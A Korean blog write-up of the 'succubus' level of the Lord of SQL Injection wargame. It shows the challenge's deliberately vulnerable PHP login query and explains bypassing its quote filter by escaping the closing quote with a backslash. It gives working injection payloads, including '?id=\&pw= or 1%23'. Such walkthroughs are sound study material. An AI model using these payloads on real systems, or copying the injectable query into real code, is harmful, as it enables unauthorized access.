 ```yaml
---
title: "[Lord of SQL Injection] LoS - succubus 문제풀이"
date: 2018-08-05
draft: false
category: [wargame]
subcategories: [lord-of-sql-injection]
tags: [Write-up, Lord of SQL Injection]
---
```


이번 문제는 `succubus`이다.
`succubus`는 처음 듣는 이름이라 찾아봤는데, 중세 유럽의 전설이랑 민속에 나오는 악마 이름이라고 한다.  

<!--more-->

코드는 다음과 같다.  

```php
-------------------------------------------------------------------------------
query : select id from prob_succubus where id='' and pw=''
-------------------------------------------------------------------------------

<?php 
  include "./config.php"; 
  login_chk(); 
  dbconnect(); 
  if(preg_match('/prob|_|\.|\(\)/i', $_GET[id])) exit("No Hack ~_~"); 
  if(preg_match('/prob|_|\.|\(\)/i', $_GET[pw])) exit("No Hack ~_~"); 
  if(preg_match('/\'/i', $_GET[id])) exit("HeHe"); 
  if(preg_match('/\'/i', $_GET[pw])) exit("HeHe"); 
  $query = "select id from prob_succubus where id='{$_GET[id]}' and pw='{$_GET[pw]}'"; 
  echo "<hr>query : <strong>{$query}</strong><hr><br>"; 
  $result = @mysql_fetch_array(mysql_query($query)); 
  if($result['id']) solve("succubus"); 
  highlight_file(__FILE__); 
?>
```

지난 번 문제랑 뭐가 다른가 했는데, `ereg()` 대신에 `preg_match()`가 사용되었다.
이번엔 정말로 `'`를 우회해야 하는 문제인 것 같다.
처음에는 `preg_match()` 함수에 취약점이 있지 않을까 생각했다.
그런데 아무리 찾아도 취약점이 있다는 내용이 보이지 않았고, 아직까지 `preg_match()`에 대한 취약점이 나오지 않았다는 글이 2017년에 올라와 있었다.

그럼 다른 방법으로 문제를 풀어야 했기 때문에 엄청 고민을 했다.
이런저런 키워드로 검색을 했는데, 그러다가 `\`에 필터링이 없을 경우 이를 이용 해 문제를 풀 수 있다는 내용을 봤다.
문제에서, `id`와 `pw`를 입력받고 있다.
이 때, 만약 `id`에 `\`를 입력하고 `pw`에는 ` or 1#`를 입력하면 완성되는 쿼리는 아래와 같다.  

```mysql
select id from prob_succubus where id='\' and pw' or 1#
```

때문에 `id`의 뒤에 있는 `'`는 `\'`가 되며 싱글 쿼터 내의 문자로 인식된다.
즉, `id`가 `' and pw`인 행을 찾게 되는 것이다.
물론 테이블에는 `id`가 `' and pw`인 행은 없을 것이므로, 뒤의 `or 1`이 실행되며 값을 추출할 수 있게 된다.
따라서 아래와 같이 입력하면 문제를 풀 수 있다.  

```plain
?id=\&pw= or 1%23
```

문제에서는 결과로 추출 된 `id`만 있으면 되기 때문에 `or 1`을 사용했는데, 만약 `admin`인 `id`를 추출했어야 했다면 `or id=0x61646d696e%23`을 `pw`에 입력하면 문제를 풀 수 있다.  

```php
--------------------------------------------------------------------------------------
query : select id from prob_succubus where id='\' and pw=' or 1#'
--------------------------------------------------------------------------------------

SUCCUBUS Clear!
<?php 
  include "./config.php"; 
  login_chk(); 
  dbconnect(); 
  if(preg_match('/prob|_|\.|\(\)/i', $_GET[id])) exit("No Hack ~_~"); 
  if(preg_match('/prob|_|\.|\(\)/i', $_GET[pw])) exit("No Hack ~_~"); 
  if(preg_match('/\'/i', $_GET[id])) exit("HeHe"); 
  if(preg_match('/\'/i', $_GET[pw])) exit("HeHe"); 
  $query = "select id from prob_succubus where id='{$_GET[id]}' and pw='{$_GET[pw]}'"; 
  echo "<hr>query : <strong>{$query}</strong><hr><br>"; 
  $result = @mysql_fetch_array(mysql_query($query)); 
  if($result['id']) solve("succubus"); 
  highlight_file(__FILE__); 
?>
```

---

```plain
SUCCUBUS Clear!!
```